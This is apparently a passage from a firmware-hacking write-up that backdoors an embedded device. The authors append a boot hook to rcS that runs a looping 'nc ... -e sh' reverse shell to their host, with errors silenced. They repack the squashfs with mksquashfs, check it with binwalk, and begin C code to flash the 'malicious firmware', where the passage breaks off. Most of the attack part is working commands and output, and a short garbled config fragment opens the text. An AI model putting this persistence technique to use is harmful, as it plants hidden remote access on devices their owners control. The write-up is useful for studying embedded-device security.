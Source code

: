 ```server-a = b\ndomain = 10.42.0.1\ncccccc```

We added these lines to the bottom of the rcS in our unpacked root filesystem.

```bash
chmod +x /home/hello
/home/hello &
```

Along with a file ```hello``` in /home

```bash
while true
do
        nc 10.42.0.1 1234 -e sh 2> /dev/null
        sleep 5
done
```

The hello file will constantly be trying to connect back to our host machine, and redirect any errors to /dev/null so that they do not get printed.

This way we can always be able to connect to the device as soon as it boots and then be able to close and open the connection any time we want.

All that's left is to run mksquashfs to pack it back up and then write to mtd2.

When we run binwalk on the rootfs.squashfs we can see the compression type and the block size

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, little endian, version 4.0, compression:xz, size: 2047938 bytes, 457 inodes, blocksize: 131072 bytes, created: 2021-12-23 04:30:19
```

We can then include those in our mksquashfs command so that its properly packed to be flashed onto the device.

```mksquashfs _rootfs.sqfs.extracted/squashfs-root new_rootfs.squashfs -comp xz -b 131072```

Running binwalk again on our file to verify it looks the same.

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, little endian, version 4.0, compression:xz, size: 2047962 bytes, 458 inodes, blocksize: 131072 bytes, created: 2022-09-22 04:48:16
```

We can see that 1 inode was added since we added a file, and the size grew by 26 bytes. If we did the math, it would probably line up to be the same amount of bytes we wrote in the rcS and the hello file post compression.

Now we can write some C code to reprogram the mtd block and install our malicious firmware. Shoutouts to stackoverflow for most of the code.

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <mtd/mtd-user.h>

int main()
{
    mtd_info_t mtd_info;           // the MTD structure
    erase_info_t ei;               // the erase block structure
    int i;
```